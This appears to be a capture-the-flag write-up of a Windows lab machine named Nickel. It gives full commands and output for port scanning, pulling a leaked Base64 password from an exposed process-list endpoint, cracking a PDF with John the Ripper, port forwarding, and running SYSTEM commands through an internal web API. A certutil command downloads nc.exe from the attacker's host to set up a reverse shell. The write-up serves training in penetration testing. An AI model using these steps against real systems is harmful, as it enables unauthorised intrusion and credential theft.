I initiated the assessment with my standard three-stage Nmap methodology. First I performed a full TCP port scan (65,535 ports), followed by a targeted service enumeration on the discovered open ports, and concluded with a scan of the top 10 UDP ports.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-27 01:45 UTC
Nmap scan report for 192.168.168.99
Host is up (0.078s latency).
Not shown: 65241 closed tcp ports (reset), 279 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
135/tcp open msrpc
139/tcp open netbios-ssn
445/tcp open microsoft-ds
3389/tcp open ms-wbt-server
5040/tcp open unknown
8089/tcp open unknown
33333/tcp open dgi-serv
49664/tcp open unknown
49665/tcp open unknown
49666/tcp open unknown
49667/tcp open unknown
49668/tcp open unknown
49669/tcp open unknown
Nmap done: 1 IP address (1 host up) scanned in 21.09 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 21,22,135,139,445,3389,5040,8089,33333,49664-49669
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-27 01:46 UTC
Nmap scan report for 192.168.168.99
Host is up (0.047s latency).
PORT STATE SERVICE VERSION
21/tcp open ftp FileZilla ftpd 0.9.60 beta
| ftp-syst:
|_ SYST: UNIX emulated by FileZilla
22/tcp open ssh OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey:
| 3072 86:84:fd:d5:43:27:05:cf:a7:f2:e9:e2:75:70:d5:f3 (RSA)
| 256 9c:93:cf:48:a9:4e:70:f4:60:de:e1:a9:c2:c0:b6:ff (ECDSA)
|_ 256 00:4e:d7:3b:0f:9f:e3:74:4d:04:99:0b:b1:8b:de:a5 (ED25519)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
3389/tcp open ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=nickel
| Not valid before: 2025-12-06T11:11:21
|_Not valid after: 2026-06-07T11:11:21
| rdp-ntlm-info:
| Target_Name: NICKEL
| NetBIOS_Domain_Name: NICKEL
| NetBIOS_Computer_Name: NICKEL
| DNS_Domain_Name: nickel
| DNS_Computer_Name: nickel
| Product_Version: 10.0.18362
|_ System_Time: 2026-01-27T01:49:29+00:00
|_ssl-date: 2026-01-27T01:50:35+00:00; 0s from scanner time.
5040/tcp open unknown
8089/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
33333/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Site doesn't have a title.
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49668/tcp open msrpc Microsoft Windows RPC
49669/tcp open msrpc Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time:
| date: 2026-01-27T01:49:30
|_ start_date: N/A
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled but not required
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 226.47 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-27 01:51 UTC
Nmap scan report for 192.168.168.99
Host is up (0.046s latency).
PORT STATE SERVICE
53/udp closed domain
67/udp closed dhcps
123/udp open|filtered ntp
135/udp closed msrpc
137/udp open|filtered netbios-ns
138/udp open|filtered netbios-dgm
161/udp closed snmp
445/udp closed microsoft-ds
631/udp closed ipp
1434/udp open|filtered ms-sql-m
Nmap done: 1 IP address (1 host up) scanned in 6.73 seconds
Initial checks showed that FTP anonymous login was disabled.
┌──(kali㉿kali)-[~/Desktop]
└─$ ftp $IP
Connected to 192.168.168.99.
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit <https://filezilla-project.org/>
Name (192.168.168.99:kali): anonymous
331 Password required for anonymous
Password:
530 Login or password incorrect!
ftp: Login failed
ftp>
Similarly, SMB Null Authentication attempts failed across multiple tools, as the server consistently denied access.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=smb-enum-shares,smb-enum-users,vuln -p 139,445
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-27 01:56 UTC
Nmap scan report for 192.168.168.99
Host is up (0.044s latency).
PORT STATE SERVICE VERSION
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_smb-vuln-ms10-054: false
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 41.35 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient -N -L //$IP session setup failed: NT_STATUS_ACCESS_DENIED
┌──(kali㉿kali)-[~/Desktop]
└─$ smbmap -H $IP
________ ___ ___ _______ ___ ___ __ _______
/" )|" \\ /" || _ "\\ |" \\ /" | /""\\ | __ "\\
(: \\___/ \\ \\ // |(. |_) :) \\ \\ // | / \\ (. |__) :)
\\___ \\ /\\ \\/. ||: \\/ /\\ \\/. | /' /\\ \\ |: ____/
__/ \\ |: \\. |(| _ \\ |: \\. | // __' \\ (| /
/" \\ :) |. \\ /: ||: |_) :)|. \\ /: | / / \\ \\ /|__/ \\
(_______/ |___|\\__/|___|(_______/ |___|\\__/|___|(___/ \\___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
<https://github.com/ShawnDEvans/smbmap>
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 0 authenticated session(s)
[!] Something weird happened on (192.168.168.99) Error occurs while reading from remote(104) on line 1015
[*] Closed 1 connections
┌──(kali㉿kali)-[~/Desktop]
└─$ nxc smb $IP -u guest -p ''
SMB 192.168.168.99 445 NICKEL [*] Windows 10 / Server 2019 Build 18362 x64 (name:NICKEL) (domain:nickel) (signing:False) (SMBv1:False)
SMB 192.168.168.99 445 NICKEL [-] nickel\\guest: STATUS_ACCOUNT_DISABLED
I ran the Nmap http-enum script against port 8089 and 33333, but it yielded no significant results.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=http-enum -p 8089,33333
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-27 01:57 UTC
Nmap scan report for 192.168.168.99
Host is up (0.050s latency).
PORT STATE SERVICE VERSION
8089/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
33333/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 24.33 seconds
The webpage on port 8089 hosted a “DevOps Dashboard” featuring three buttons: ‘List Current Deployments’, ‘List Running Processes’, and ‘List Active Nodes’.

Theses buttons appeared to link to a static IP (169.254.1.128) on port 33333.
┌──(kali㉿kali)-[~/Desktop]
└─$ curl -i <http://$IP:8089>
HTTP/1.1 200 OK
Content-Length: 468
Server: Microsoft-HTTPAPI/2.0
Date: Tue, 27 Jan 2026 02:33:30 GMT
<h1>DevOps Dashboard</h1>
<hr>
<form action='<http://169.254.1.128:33333/list-current-deployments>' method='GET'>
<input type='submit' value='List Current Deployments'>
</form>
<br>
<form action='<http://169.254.1.128:33333/list-running-procs>' method='GET'>
<input type='submit' value='List Running Processes'>
</form>
<br>
<form action='<http://169.254.1.128:33333/list-active-nodes>' method='GET'>
<input type='submit' value='List Active Nodes'>
</form>
<hr>

While the static IP was unreachable, the target host also had port 33333 open. Navigating there directly resulted in an “Invalid Token” error.

Appending /list-current-deployments to the URL returned a Cannot “GET” /list-current-deployments error. This suggested the endpoint might support alternative HTTP methods, such as POST.

Using Burp Suite , I sent a POST request to /list-current-deployments , which returned a “Not Implemented” message, which I have never seen with a GET request.

A POST request to /list-running-procs successfully triggered a response, dumping a list of what appeared to be every active process on the host.

Within the process list, I discovered a set of exposed credentials: ariah:Tm93aXNlU2xvb3BUaGVvcnkxMzkK .
HTTP/1.1 200 OK
Content-Length: 2916
Server: Microsoft-HTTPAPI/2.0
Date: Tue, 27 Jan 2026 02:35:54 GMT
name : System Idle Process
commandline :
name : System
commandline :
name : Registry
commandline :
name : smss.exe
commandline :
name : csrss.exe
commandline :
name : wininit.exe
commandline :
name : csrss.exe
commandline :
name : winlogon.exe
commandline : winlogon.exe
name : services.exe
commandline :
name : lsass.exe
commandline : C:\\Windows\\system32\\lsass.exe
name : fontdrvhost.exe
commandline : "fontdrvhost.exe"
name : fontdrvhost.exe
commandline : "fontdrvhost.exe"
name : dwm.exe
commandline : "dwm.exe"
name : powershell.exe
commandline : powershell.exe -nop -ep bypass C:\\windows\\system32\\ws80.ps1
name : Memory Compression
commandline :
name : cmd.exe
commandline : cmd.exe C:\\windows\\system32\\DevTasks.exe --deploy C:\\work\\dev.yaml --user ariah -p
"Tm93aXNlU2xvb3BUaGVvcnkxMzkK" --server nickel-dev --protocol ssh
name : powershell.exe
commandline : powershell.exe -nop -ep bypass C:\\windows\\system32\\ws8089.ps1
name : powershell.exe
commandline : powershell.exe -nop -ep bypass C:\\windows\\system32\\ws33333.ps1
name : FileZilla Server.exe
commandline : "C:\\Program Files (x86)\\FileZilla Server\\FileZilla Server.exe"
name : sshd.exe
commandline : "C:\\Program Files\\OpenSSH\\OpenSSH-Win64\\sshd.exe"
name : VGAuthService.exe
commandline : "C:\\Program Files\\VMware\\VMware Tools\\VMware VGAuth\\VGAuthService.exe"
name : vm3dservice.exe
commandline : C:\\Windows\\system32\\vm3dservice.exe
name : vmtoolsd.exe
commandline : "C:\\Program Files\\VMware\\VMware Tools\\vmtoolsd.exe"
name : vm3dservice.exe
commandline : vm3dservice.exe -n
name : dllhost.exe
commandline : C:\\Windows\\system32\\dllhost.exe /Processid:{02D4B3F1-FD88-11D1-960D-00805FC79235}
name : WmiPrvSE.exe
commandline : C:\\Windows\\system32\\wbem\\wmiprvse.exe
name : LogonUI.exe
commandline : "LogonUI.exe" /flags:0x2 /state0:0xa3998855 /state1:0x41c64e6d
name : msdtc.exe
commandline : C:\\Windows\\System32\\msdtc.exe
name : conhost.exe
commandline : \\??\\C:\\Windows\\system32\\conhost.exe 0x4
name : conhost.exe
commandline : \\??\\C:\\Windows\\system32\\conhost.exe 0x4
name : conhost.exe
commandline : \\??\\C:\\Windows\\system32\\conhost.exe 0x4
name : conhost.exe
commandline : \\??\\C:\\Windows\\system32\\conhost.exe 0x4
name : MicrosoftEdgeUpdate.exe
commandline : "C:\\Program Files (x86)\\Microsoft\\EdgeUpdate\\MicrosoftEdgeUpdate.exe" /c
name : SgrmBroker.exe
commandline :
name : SearchIndexer.exe
commandline : C:\\Windows\\system32\\SearchIndexer.exe /Embedding
name : WmiApSrv.exe
commandline : C:\\Windows\\system32\\wbem\\WmiApSrv.exe
The password seemed to be Base64-encoded; after decoding it to plaintext, I successfully authenticated via SSH.
┌──(kali㉿kali)-[~/Desktop]
└─$ echo 'Tm93aXNlU2xvb3BUaGVvcnkxMzkK' | base64 -d
NowiseSloopTheory139
ariah:NowiseSloopTheory139
ariahMicrosoft Windows [Version 10.0.18362.1016]
(c) 2019 Microsoft Corporation. All rights reserved.
ariah@NICKEL C:\\Users\\ariah>whoami
nickel\\ariah
found local.txt
ariah@NICKEL C:\\Users\\ariah\\Desktop>dir
Volume in drive C has no label.
Volume Serial Number is 9451-68F7
Directory of C:\\Users\\ariah\\Desktop
04/14/2022 03:46 AM <DIR> .
04/14/2022 03:46 AM <DIR> ..
01/26/2026 05:36 PM 34 local.txt
1 File(s) 34 bytes
2 Dir(s) 7,659,065,344 bytes free
ariah@NICKEL C:\\Users\\ariah\\Desktop>type local.txt
ef1...
with valid credentials, I revisited the FTP server and retrieved a file named Infrastructure.pdf .
┌──(kali㉿kali)-[~/Desktop]
└─$ ftp $IP
Connected to 192.168.168.99.
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit <https://filezilla-project.org/>
Name (192.168.168.99:kali): ariah
331 Password required for ariah
Password:
230 Logged on
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||53522|)
150 Opening data channel for directory listing of "/"
-r--r--r-- 1 ftp ftp 46235 Sep 01 2020 Infrastructure.pdf
226 Successfully transferred "/"
The file was password-protected, but I successfully cracked it using pdf2john and John the Ripper .

┌──(kali㉿kali)-[~/Desktop]
└─$ pdf2john Infrastructure.pdf > pdf2hash
┌──(kali㉿kali)-[~/Desktop]
└─$ john pdf2hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PDF [MD5 SHA2 RC4/AES 32/64])
Cost 1 (revision) is 4 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ariah4168 (Infrastructure.pdf)
1g 0:00:00:59 DONE (2026-01-27 02:46) 0.01671g/s 167266p/s 167266c/s 167266C/s arial<3..ariadne01
Use the "--show --format=PDF" options to display all of the cracked passwords reliably
Session completed.
The PDF contained three URLs, suggesting the existence of internal-only web services.

The target indeed was running an internal facing web service on port 80.
ariah@NICKEL C:\\Users\\ariah\\Desktop>netstat -ano
Active Connections
Proto Local Address Foreign Address State PID
TCP 0.0.0.0:21 0.0.0.0:0 LISTENING 1904
TCP 0.0.0.0:22 0.0.0.0:0 LISTENING 1984
TCP 0.0.0.0:135 0.0.0.0:0 LISTENING 836
TCP 0.0.0.0:445 0.0.0.0:0 LISTENING 4
TCP 0.0.0.0:3389 0.0.0.0:0 LISTENING 1012
TCP 0.0.0.0:5040 0.0.0.0:0 LISTENING 696
TCP 0.0.0.0:8089 0.0.0.0:0 LISTENING 4
TCP 0.0.0.0:33333 0.0.0.0:0 LISTENING 4
TCP 0.0.0.0:49664 0.0.0.0:0 LISTENING 620
TCP 0.0.0.0:49665 0.0.0.0:0 LISTENING 520
TCP 0.0.0.0:49666 0.0.0.0:0 LISTENING 356
TCP 0.0.0.0:49667 0.0.0.0:0 LISTENING 1004
TCP 0.0.0.0:49668 0.0.0.0:0 LISTENING 612
TCP 0.0.0.0:49669 0.0.0.0:0 LISTENING 1812
TCP 127.0.0.1:80 0.0.0.0:0 LISTENING 4
TCP 127.0.0.1:14147 0.0.0.0:0 LISTENING 1904
TCP 192.168.168.99:22 192.168.45.236:57478 ESTABLISHED 1984
TCP 192.168.168.99:139 0.0.0.0:0 LISTENING 4
I established an SSH Local Port Forward to access the internal network.
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh -L 80:127.0.0.1:80 ariah@$IP
ariah@192.168.168.99's password:
A curl inspection of the internal server was initially inconclusive. However, the PDF identified http://nickel/? as a “Temporary Command” endpoint. The trailing question mark suggested paramter-based execution.
┌──(kali㉿kali)-[~/Desktop]
└─$ curl -i localhost
HTTP/1.1 200 OK
Content-Length: 97
Last-Modified: Mon, 26 Jan 2026 19:49:29 GMT
Server: Powershell Webserver/1.2 on Microsoft-HTTPAPI/2.0
Date: Tue, 27 Jan 2026 03:49:29 GMT
<!doctype html><html><body>dev-api started at 2025-12-07T05:26:25
<pre></pre>
</body></html>
While a dash prefix returned an “Incorrect Parameter” error, prepending a command with a question mark (?whoami) successfully executed the command on the server.
┌──(kali㉿kali)-[~/Desktop]
└─$ curl localhost:8888/whoami
<!doctype html><html><body>Incorrect Parameter</body></html>
┌──(kali㉿kali)-[~/Desktop]
└─$ curl localhost:8888?whoami
<!doctype html><html><body>dev-api started at 2025-12-07T05:26:25
<pre>nt authority\\system
</pre>
</body></html>
ariah@NICKEL C:\\Users\\ariah\\Desktop>certutil -urlcache -split -f <http://192.168.45.236/nc.exe> nc.exe
**** Online ****
0000 ...
aab0
CertUtil: -URLCache command completed successfully.
From here, there are several paths to a SYSTEM shell. I will demonstrate two methods: executing a traditional reverse shell via nc.exe , and creating a new user to be added to the Local Administrators group for SSH access.
system
C:\\Users\\Administrator\\Desktop>type proof.txt
type proof.txt
52e...



┌──(kali㉿kali)-[~/Desktop]
└─$ ssh wook@$IP
wook@192.168.168.99's password:
Microsoft Windows [Version 10.0.18362.1016]
(c) 2019 Microsoft Corporation. All rights reserved.
wook@NICKEL C:\\Users\\wook>whoami
nickel\\wook
found proof.txt
wook@NICKEL C:\\Users\\Administrator\\Desktop>type proof.txt
52e...